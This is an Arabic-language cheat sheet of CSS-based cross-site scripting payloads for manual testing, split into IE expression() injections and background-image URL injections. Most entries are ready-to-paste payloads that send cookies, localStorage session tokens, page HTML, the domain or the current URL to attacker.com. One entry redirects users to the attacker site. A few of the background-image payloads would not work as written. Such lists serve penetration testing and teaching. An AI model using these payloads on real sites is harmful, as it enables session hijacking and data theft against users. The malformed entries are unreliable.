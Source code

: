 
## جميع المحاولات الممكنة للحقن المستخدمة في XSS القائم على CSS
في الحقن المستخدمة في XSS القائم على CSS، المحاولات تركز على استغلال خصائص وتعبيرات CSS لتنفيذ JavaScript أو تسريب بيانات. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال CSS في حقول النماذج، معلمات URL، خصائص `style`، أو ملفات CSS. الهدف هو تنفيذ JavaScript أو تسريب بيانات.

#### أ. حقن باستخدام تعبير `expression()` (Internet Explorer)
استخدام `expression()` لتنفيذ JavaScript في المتصفحات القديمة (مثل IE).
- **الحقن**: `<div style="width:expression(alert('XSS'))">`
  - **الإدخال**: أدخل في حقل نصي: `<div style="width:expression(alert('XSS'))">`
  - **كيف يعمل**: ينفذ تنبيهًا عند عرض العنصر في IE.
  - **متى يُستخدم؟**: لاختبار المتصفحات القديمة.
- **الحقن**: `<div style="width:expression(fetch('http://attacker.com/log?c='+document.cookie))">`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<div style="width:expression(fetch('http://attacker.com/log?c='+document.cookie))">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة في IE.
- **الحقن**: `<div style="width:expression(document.location='http://attacker.com')">`
  - **الإدخال**: `https://example.com/?style=div{width:expression(document.location='http://attacker.com')}`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
- **الحقن**: `<div style="width:expression(fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML}))">`
  - **الإدخال**: أدخل في حقل تعليق: `<div style="width:expression(fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML}))">`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<div style="width:expression(new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'))">`
  - **الإدخال**: أدخل في وصف: `<div style="width:expression(new Image().src='http://attacker.com/log?s='+localStorage.getItem('token'))">`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### ب. حقن باستخدام `background-image` لتسريب البيانات
استخدام خاصية `background-image` لإرسال بيانات عبر URL.
- **الحقن**: `<div style="background-image:url('http://attacker.com/log')">`
  - **الإدخال**: أدخل في حقل نصي: `<div style="background-image:url('http://attacker.com/log')">`
  - **كيف يعمل**: يرسل طلبًا إلى خادم المهاجم لتأكيد التنفيذ.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة.
- **الحقن**: `<div style="background-image:url('http://attacker.com/log?d='+document.cookie)">`
  - **الإدخال**: `https://example.com/?style=div{background-image:url('http://attacker.com/log?d='+document.cookie)}`
  - **كيف يعمل**: يحاول إرسال ملفات تعريف الارتباط (قد يُحظر بسبب قيود المتصفح).
  - **متى يُستخدم؟**: لمحاولة سرقة البيانات.
- **الحقن**: `<div style="background-image:url('http://attacker.com/log?d='+document.domain)">`
  - **الإدخال**: أدخل في وصف: `<div style="background-image:url('http://attacker.com/log?d='+document.domain)">`
  - **كيف يعمل**: يرسل نطاق الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<div style="background-image:url('http://attacker.com/log?l='+window.location.href)">`
  - **الإدخال**: أدخل في حقل تعليق: `<div style="background-image:url('http://attacker.com/log?l='+window.location.href)">`
  - **كيف يعمل**: يرسل عنوان URL الحالي.